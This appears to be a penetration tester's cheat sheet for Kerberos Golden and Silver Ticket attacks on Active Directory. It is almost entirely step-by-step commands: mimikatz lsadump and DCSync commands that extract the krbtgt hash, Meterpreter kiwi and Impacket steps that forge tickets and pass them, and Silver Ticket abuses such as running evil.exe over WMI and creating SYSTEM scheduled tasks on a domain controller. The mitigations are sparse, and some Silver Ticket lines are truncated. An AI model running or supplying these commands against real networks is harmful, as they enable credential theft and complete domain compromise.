# GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:krbtgt

#### 4) lsadump::lsa /patch

#### 5) lsadump::trust /patch

#### 6) lsadump::dcsync /user:krbtgt

#### 7) kerberos::purge

#### 8) kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 9) kerberos::tgt

#### 10) misc::cmd

## Alternate method: Meterpreter shell

### Get information for golden ticket

#### 1) dcsync_ntlm krbtgt

#### 2) dcsync krbtgt

### Forge a Golden Ticket

#### 3) load kiwi

#### 4) golden_ticket_create -d DOMAIN_NAME -k NTLM_HASH_OF_KRBTGT -s SID -u Administrator

#### 5) kerberos_ticket_purge

#### 6) kerberos_ticket_use /root/Downloads/Administrator.tck

#### 7) kerberos_ticket_list

### Authenticate with psexec impacket (Linux)

#### 8) ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100

# SILVER TICKET

### Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN

### 1) Create a ticket for the service

 - mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:

 - mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-134912914

### 2) Use same steps as a golden ticket

# Golden Ticket

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`           | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID`                                              | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`                                                      | Command line utility in Windows to display the contents of the Kerberos ticket cache. |


## TIP: If you need to swap ticket between Windows and Linux, you need to convert them with ticket_converter or kekeo .

### 1) Kekeo

 - misc::convert ccache ticket.kirbi

 - misc::convert kirbi ticket.ccache

### 2) Impacket ticket_converter

 - python ticket_converter.py velociraptor.ccache velociraptor.kirbi

 - python ticket_converter.py velociraptor.kirbi velociraptor.ccache

## MITIGATIONS

### 1) Hard to detect because they are legit TGT tickets

### 2) Mimikatz generates a golden ticket with a life-span of 10 years

## Services to target with a Silver Ticket

### Service Type --> Service Silver Tickets --> Attack

#### 1) WMI --> HOST + RPCSS --> wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"

#### 2) Powershell Remoting --> CIFS + HTTP + (wsman?) --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 3) WinRM --> HTTP+ wsman --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 4) Scheduled Tasks --> HOST --> schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"

#### 5) Windows File Share (CIFS) --> CIFS --> dir \\dc01\c$

#### 6) LDAP operations including Mimikatz DCSync --> LDAP --> lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt

#### 7) Windows Remote Server Administration Tools (RSAT) --> RPCSS + LDAP + CIFS --> /

## MITIGATIONS

### Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.

